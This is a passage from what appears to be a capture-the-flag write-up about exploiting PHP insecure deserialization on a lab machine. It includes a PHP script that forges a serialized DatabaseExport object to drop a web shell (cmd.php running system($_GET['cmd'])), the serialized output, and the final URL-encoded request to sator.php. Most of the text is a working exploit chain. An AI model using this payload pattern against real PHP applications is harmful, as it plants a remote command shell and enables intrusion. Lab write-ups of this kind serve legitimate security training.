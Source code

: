 ```php
?>
```



--> PHP Insecure Deserialization 

We can actually create a simple cmd shell 

We'll use this php script to forge our serialized payload

```php
<?php
class DatabaseExport
{
	public $user_file = 'cmd.php';
	public $data = '<?php system($_GET["cmd"])?>';
}

$bad= new DatabaseExport;
echo serialize($bad);
?>
```

Output:

```php
O:14:"DatabaseExport":2:{s:9:"user_file";s:7:"cmd.php";s:4:"data";s:28:"<?php system($_GET["cmd"])?>";}
```
our final payload

```url
http://10.10.10.223/sator.php?arepo=O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A7%3A%22cmd.php%22%3Bs%3A4%3A%22data%22%3Bs%3A28%3A%22%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3F%3E%22%3B%7D
```


<img src="arepo.png">

Seems like it worked! let's check if we have our cmd working


<img src="www.png">
